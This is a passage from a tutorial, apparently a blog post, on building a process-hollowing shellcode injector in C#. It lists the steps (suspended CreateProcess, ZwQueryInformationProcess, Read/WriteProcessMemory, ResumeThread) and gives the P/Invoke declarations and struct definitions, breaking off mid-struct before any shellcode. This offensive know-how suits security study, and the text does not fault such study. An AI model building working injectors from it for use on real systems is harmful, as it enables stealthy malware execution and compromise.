 So we will be first creating a process in a suspended state using `CreateProcess`, query the process using `ZwQueryInformationProcess`, get some values using `ReadProcessMemory`, write our shellcode using `WriteProcessMemory` and then resume the thread using `ResumeThread`.

### Imports
We can start writing the code with these API imports. Using the Windows Docs and the calls we need, we get the imports as
```csharp
[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, ref IntPtr lpNumberOfBytesWritten);

[DllImport("kernel32.dll", SetLastError = true)]
public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

[DllImport("kernel32.dll")]
public static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, ref STARTUPINFO lpStartupInfo, ref PROCESS_INFORMATION lpProcessInformation);

[DllImport("ntdll.dll")]
public static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

[DllImport("kernel32.dll", SetLastError = true)]
public static extern uint ResumeThread(IntPtr hThread);
```
Pretty self explanatory. Look at my previous posts if this confuses you.
<br>
We also need some structs and enums for this to work. These are `STARTUPINFO`, `PROCESS_INFORMATION` and `PROCESS_BASIC_INFORMATION`. These stucts, in the C# format can be found at [Pinvoke](https://www.pinvoke.net/index.aspx) website. We also have the `SUSPENDED` state which we will provide as a creation flag to `CreateProcess` to create a process in a suspended state. All combined these become
```csharp
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_BASIC_INFORMATION
{
  public IntPtr ExitStatus;
  public IntPtr PebAddress;
  public IntPtr AffinityMask;
  public IntPtr BasePriority;
  public IntPtr UniquePID;
  public IntPtr InheritedFromUniqueProcessId;
}

[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
public struct STARTUPINFO
{
 public Int32 cb;
 public string lpReserved;
 public string lpDesktop;
 public string lpTitle;
 public Int32 dwX;
 public Int32 dwY;
 public Int32 dwXSize;
 public Int32 dwYSize;
 public Int32 dwXCountChars;
 public Int32 dwYCountChars;
 public Int32 dwFillAttribute;
 public Int32 dwFlags;
 public Int16 wShowWindow;
 public Int16 cbReserved2;
```